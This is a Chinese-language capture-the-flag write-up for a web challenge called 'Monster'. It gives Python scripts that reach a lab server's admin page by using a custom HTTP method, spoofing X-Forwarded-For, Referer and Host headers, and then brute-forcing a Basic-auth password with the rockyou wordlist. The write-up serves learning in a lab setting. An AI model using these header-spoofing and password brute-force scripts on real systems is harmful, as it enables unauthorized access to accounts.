

# 01. Monster


### Solution

#### Step 1: 先照著題目的提示，使用 `GIVEMEFLAG` method 進入

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index.html', 'w') as output_file:
    output_file.write(response.text)
```

當我們真的用了 `GIVEMEFLAG` 進入了，我們可以觀察網頁的 source code `<h1>` tag 的內容換成了 `Your IP must be 127.0.0.1.`。


#### Step 2: 透過 `X-Forwarded-For` header 來滿足題目的 `IP` 要求

接著我們照著指示要把 `IP` 變成 `127.0.0.1.` 但是我們沒辦法直接透過 `Host` header 來改變 `IP`，因為會被擋掉，因此我們需要透過 `X-Forwarded-For` header 來改變 `IP`。

```py

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "http://140.115.59.7:12002/",
    "X-Forwarded-For": "127.0.0.1"  # Step 2
}

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index.html', 'w') as output_file:
    output_file.write(response.text)
```

當我們真的用了 `X-Forwarded-For` header 來改變 `IP` 為 `127.0.0.1.` 後，我們可以觀察網頁的 source code `<h1>` tag 的內容換成了 `You must come from https://www.adlSecurity.com.`。


#### Step 3: 透過 `Referer` header 來滿足題目的 `Referer` 要求

接著我們照著指示要把 `Referer` 變成 `https://www.adlSecurity.com.` 但是我們沒辦法直接透過 `Host` header 來改變 `Referer`，因為會被擋掉，因此我們需要透過 `Referer` header 來改變 `Referer`。

```py
url = 'http://140.115.59.7:12002/'

method = 'GIVEMEFLAG'

headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "https://www.adlSecurity.com", # Step 3
    "X-Forwarded-For": "127.0.0.1"  # Step 2
}

response = requests.request(
    method, 
    url,
    headers=headers
)

with open('index3.html', 'w') as output_file:
    output_file.write(response.text)
```


接著我們保持上面的要求設定：使用 `GIVEMEFLAG` method， `x-forwarded-for` 保持 `127.0.0.1.` 和 `referer`，並且把 `host` 改成 `www.adlSecurity.com`，就可以進到 `admin/`。



### Step 4: 找出帳號密碼

我們可以根據提示 `Now, you must loginhitori & 🤘rockyou!!!` 來找出帳號密碼，因此我們可以使用 [`rockyou.txt`](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz) 來爆破帳號密碼。

```py
from base64 import b64encode
import requests
from bs4 import BeautifulSoup
from requests.exceptions import ReadTimeout, ConnectTimeout

method = "GIVEMEFLAG"
login_url = 'http://140.115.59.7:12002/admin'
login_headers = {
    "Host": "140.115.59.7:12002",
    "Referer": "https://www.adlSecurity.com", # Step 3
    "X-Forwarded-For": "127.0.0.1",  # Step 2
    "Authorization": None,
}


def set_login(username, password):
    authorization = b64encode(f"{username}:{password}".encode('utf-8')).decode('ascii')
    login_headers["Authorization"] = f"Basic {authorization}"

count = 0
with open('rockyou.txt', 'r', encoding='latin-1') as rockyou:
    for line in rockyou:

        count += 1
        line = line.strip()
        print(f"try {count} password: {line}")
        set_login("hitori", line)
        while True:
            try:
                response = requests.request(
                    method=method, 
                    url=login_url, 
                    headers=login_headers, 
                    timeout=1
                )
                break
            except ReadTimeout:
                print("read timeout, retry")
            except ConnectTimeout:
                print("connect timeout, retry")
        
        if response.status_code == 200:
            print(f"found password!: {line}")
            soup = BeautifulSoup(response.text, 'html.parser')
            tag_content = soup.find('code').text.strip()
            print("Content within <code> tags:")
            print(tag_content)  # flag is here!!!
            break
```

最後我們利用上面找到的帳號密碼來登入，並且使用 `GIVEMEFLAG` method ， `x-forwarded-for` 保持 `127.0.0.1.` 和 `referer`，並且把 `host` 改成 `www.adlSecurity.com`，再加上最後爆破出來的密碼，就可以拿到 flag。

**這樣就拿到 flag 了！！！**

